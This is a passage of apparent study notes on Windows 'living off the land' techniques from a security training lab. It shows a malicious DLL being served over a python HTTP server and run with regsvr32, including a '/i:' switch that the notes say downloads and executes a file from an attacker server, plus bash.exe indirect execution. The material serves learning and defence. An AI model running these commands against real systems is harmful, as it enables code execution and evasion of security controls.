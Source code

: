 **3. Transfer the malicious .dll**

For demonstration purpose, we use:

```C
python3 -m http.server 1337
```

**4. Execute the .dll using regsvr32.exe**

```C
c:\Windows\System32\regsvr32.exe c:\Users\thm\Downloads\live0fftheland.dll
```

Or

```C
c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll
```

- `/s`: in silent mode (without showing messages)

- `/n`: to not call the DLL register server (by default it calls the exported function `DLLRegisterServer` but we want to simply load and execute.)

- `/i`:: this will load `mylib.dll`, look for a function named `DllInstall`, and call it. after passing argument to `/i` this will call `DllInstall("argumentHere", ...)` so in our case it will download and execute a file from our attacker server.

- `/u`: calls the `DllUnregisterServer` function inside the DLL. Typically removes registry entries, but attackers can write a DLL that does _malicious stuff_ instead of just unregistering.

**Bourne Again Shell (BASH):**

Windows Subsystem for Linux (WSL), introduced in Windows 10 and later, lets you run Linux directly on Windows. There are two versions: WSL1 (translation layer -- **translates Linux system calls into Windows calls**) and WSL2 (lightweight virtual machine with a real Linux kernel). Users can install Linux distributions and interact with them using tools like **bash.exe**.

```C
bash.exe -c "path-to-payload"
```

In ATT&CK this technique is called **Indirect Command Execution** where attackers abuse the Windows tools utility to obtain command executions.

Obviously to use this it requires WSL installed.
## Other Techniques
---
Interesting techniques used for initial access or persistence.

**Shortcuts:**

Shortcuts or a symbolic links points to a resource such as file or executable located within the operating system.

![[Living off the Land-2.png|350]]
